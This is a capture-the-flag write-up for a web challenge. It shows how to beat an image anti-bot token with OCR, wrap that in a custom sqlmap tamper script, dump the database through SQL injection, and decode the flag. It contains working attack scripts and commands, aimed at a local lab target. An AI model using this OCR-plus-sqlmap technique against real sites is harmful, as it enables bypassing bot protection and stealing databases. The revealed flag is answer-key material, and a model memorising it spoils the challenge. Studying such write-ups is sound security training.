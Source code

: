 # Web 300 Solution

## Solution

```
TROLLSEC

Protecting trollface memes since 2018
```

Who designed this piece of garbage? Anyway...

Looking through the site, the only real input we have seems to be the search page. However it seems to have an annoying anti-bot token. There's a token that changes every 60 seconds, which doesn't leave much time for automated tools to do their work.

So let's just take a look at how a normal request works and see what we can do.

There's two input fields: a search text input and a token input. Next to the token input, there's a link which, when clicked, opens a page with an image of the current token. Let's go ahead and search for "troll" with whatever the correct current token value is.

We end up with a long list of links to a bunch of trollface memes. Seriously, who came up with this junk?! So, let's do that again, but this time open up the web developer tools in whatever browser you're using and capture the request. Here's the dump of mine:

**[INSERT IMAGE HERE]**

So that's interesting, the token doesn't show up at all in the parameters. It actually shows up as a custom header called "token".

Well anyway, let's try a few different SQL injection things. If we try to search with a single quote (') we get thrown to an error page. Ok, that's not good. Let's try again, but with a double quote. This time, we just get no results.

Ok, so it seems like there might be some opportunity here for SQL injection. However, I'm lazy and don't want to do it manually. The issue then becomes that dang token. 

Looking at the image of the token, it doesn't look like normal anti-bot tokens. The text is clean. Maybe we can run OCR on it and get the token value? There's a neat python interface to Tesseract: [pytesseract](https://pypi.org/project/pytesseract/). This might allow us to write a python script to automate getting the token value out of the image.

After going through the installation steps, here's a quick demo script:

```
import pytesseract
import requests
from PIL import Image
import io

url = 'http://127.0.0.1:10101/token'
data = requests.get(url).content
img = Image.open(io.BytesIO(data))
text = pytesseract.image_to_string(img)

print text
```

Try testing it out, it seems to work! We can use OCR to get the token value. There's one problem solved.

However, here's where we run into a second problem. How can we automate this so that we can run something like sqlmap? Well sqlmap has a pretty powerful feature called tamper scripts. They allow a python script to make some changes to the request before it's sent to the webserver. Most people just use the predefined ones, but in this case we can create our own tamper script to get the token value and inject it as a header into the request. Here's what that script looks like:

```
#!/usr/bin/env python

from lib.core.data import kb
from lib.core.enums import PRIORITY
import string

import pytesseract
import requests
from PIL import Image
import io

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    url = 'http://127.0.0.1:10101/token'
    data = requests.get(url).content
    img = Image.open(io.BytesIO(data))
    text = pytesseract.image_to_string(img)

    kwargs['headers']['token']=text

    return payload
```

You also may need to throw an empty \__init__.py file into the same folder, as it's needed by sqlmap.

Let's try to use this new tamper script and see if we can get any results:
```
sqlmap --tamper=trollsec_tamper.py -u http://127.0.0.1:10101/_search?query=troll* --dump-all --level=3 --skip-urlencode
```

Eventually, we get results! Unfortunately, it's too many results! There's 30 different secrets tables, and each one is basically just a number of IDs and single letters. Looking at all those letters, they all look like they're base64 characters. Maybe if we just grab all the letters, put them together, and base64 decode it we get something?

```
cat secret1023398629.csv | awk '{if(NR>1)print}' | cut -d',' -f2 | tr -d '\n' | base64 -d

TroLLPdx{dUW*)5DO9xG%sC@bNJcSzK%_wmrJoLCFfjH4GFMA5q$WVDK6!YAMcDgyg8}
```
Well it seems like we're on the right track possibly, we just have to go through a number of different tables doing the same thing. Or just run:
```
for file in *.csv; do cat $file | awk '{if(NR>1)print}' | cut -d',' -f2 | tr -d '\n' | base64 -d; echo ""; done
```

Which, one of the results that pops out is:
```
BSidesPDX{Tr0lo10!_I_4m_vERy_gl4d_45_Im_fin411y_re7urNiNg_b4ck_H0m3}
```
